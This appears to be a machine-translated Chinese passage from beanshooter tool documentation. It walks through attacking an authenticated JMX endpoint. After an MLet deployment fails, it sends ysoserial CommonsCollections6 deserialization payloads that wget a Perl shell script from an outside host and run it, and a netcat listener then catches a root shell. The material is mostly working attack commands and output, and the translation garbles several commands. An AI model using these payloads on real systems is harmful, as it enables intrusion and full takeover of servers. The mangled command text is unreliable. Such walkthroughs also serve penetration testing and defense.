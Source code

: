 在经过认证的 *JMX* 端点的情况下，使用 *MLet* 不起作用是很常见的，即使有有效的凭证。下面的清单显示了在经过身份验证的 *JMX* 端点上部署恶意 *MBean* 的尝试:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 18 . 0 . 2 9010 状态
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.18.0.2…失败！
[*]
[-]抛出以下异常:java.lang.SecurityException:认证失败！需要凭据
[qtc @ kali ~]$ bean shooter–SSL–用户名控制角色–密码控制 172.18.0.2 9010 状态
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]获取 MLet 状态…完成！
[+] MLet 没有在 JMX 服务器上注册。
[+]获取恶意 Bean 的状态…完成！
[+]恶意 Bean 未在 JMX 服务器上注册。
【qtc @ kali ~】$ bean shooter–SSL–用户名控制角色–密码控制 172.18.0.2 9010 部署 All
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]为远程部署创建 MBean“MLet”失败！
[-]抛出以下异常:java.lang.SecurityException:访问被拒绝！除非安装了安全管理器，否则禁止创建作为类加载器的 MBean。**

在这些情况下，仍然有可能通过使用*反序列化攻击*来攻击 *JMX* 端点。为了允许这种攻击，可以通过指定对应的 *ysoserial 的路径，将 ysoserial 项目集成到 *beanshooter* 中。jar* 文件。这可以在配置文件中或通过使用`**--yso**`命令行选项进行配置。默认位置是`**/opt/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar**`。

正确设置 *ysoserial* 后，用户可以尝试对目标进行反序列化攻击:

**【qtc @ kali ~】$ bean shooter–SSL–用户名控制角色–密码控制 172 . 18 . 0 . 2 9010 ysserial commons collections 6 " wget-O/dev/shm/s . pl http://172 . 18 . 0 . 1:8000/shell . pl "
[+]创建 ysserial 有效负载…完成。
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]将有效负载发送到“getLoggerLevel”…
[+]IllegalArgumentException。这很好🙂有效载荷可能起作用了。
【qtc @ kali ~】$ bean shooter–SSL–用户名控制角色–密码控制 172 . 18 . 0 . 2 9010 ysserial commons collections 6 " perl/dev/shm/s . pl "
[+]创建 ysserial 有效负载…完成。
[+]连接到 JMX 服务器…
[+] RMI 对象尝试连接到不同的远程主机:iinsecure.dev
[+]将连接重定向回 172.18.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]将有效负载发送到“getLoggerLevel”…
[+]IllegalArgumentException。这很好🙂有效载荷可能起作用了。
【qtc @ kali ~】$ NC-VLP 4444
Ncat:版本 7.80(https://nmap.org/ncat)
Ncat:监听 on :::4444
Ncat:监听 on 0.0.0.0:4444
Ncat:连接自 172.18.0.2。Ncat:来自 172.18.0.2:45994 的连接。
id
uid = 0(root)GID = 0(root)groups = 0(root)**
